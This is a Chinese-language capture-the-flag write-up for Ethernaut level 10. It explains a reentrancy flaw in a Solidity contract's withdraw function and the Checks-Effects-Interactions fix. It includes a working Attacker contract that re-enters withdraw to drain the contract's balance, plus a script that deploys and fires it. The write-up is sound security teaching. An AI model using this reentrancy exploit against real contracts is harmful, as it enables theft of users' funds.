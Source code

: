 [The Ethernaut level 10](https://ethernaut.openzeppelin.com/level/10)

这一关的要求是获取合约里所有的资金。

仔细阅读这个合约，发现，这是个典型的重入攻击案例。

问题出在 withdraw 方法，在更新余额之前调用了 `msg.sender.call{value: _amount}("")`。这意味着在调用者收到以太币后，调用者仍然有能力再次调用 withdraw 函数（即发生重入），在余额尚未更新之前再进行一次提取。通过这种方式，攻击者可以反复进行 withdraw 操作，把整个合约的余额全部提走。

采用 Checks-Effects-Interactions 模式可以修复这个重入的问题。

攻击合约步骤如下：
1. 捐赠一定数量 ether 给目标合约
2. 编写 receive 函数，接收到 ether 时向目标合约发起 withdraw
3. 准备就绪后，发起 withdraw

示例代码如下：

```
contract Attacker {
    Reentrance target;

    constructor(address targetAddr) public {
        target = Reentrance(payable(targetAddr));
    }

    function attack(uint amount) public {
        target.donate{value: amount}(address(this));
        target.withdraw(amount);
    }

    receive() external payable {
        if (address(target).balance >= msg.value) {
            target.withdraw(msg.value);
        }
    }
}
```

还需要一个脚本去部署 `Attacker` 合约并发起攻击

```
address levelAddr = 0x5506958fC2AB6709357d9cB7F813cfb3a387b5B7;

Attacker attacker = new Attacker(levelAddr);

uint amount = 0.001 ether; // level 合约当前balance
(bool success, ) = address(attacker).call{value: amount}(""); // 先发送 ether 给 attacker
require(success, "fund attacker failed");

attacker.attack(amount);
```

完整代码见：[这里](ethernaut/script/level10.s.sol)

Foundry 脚本：
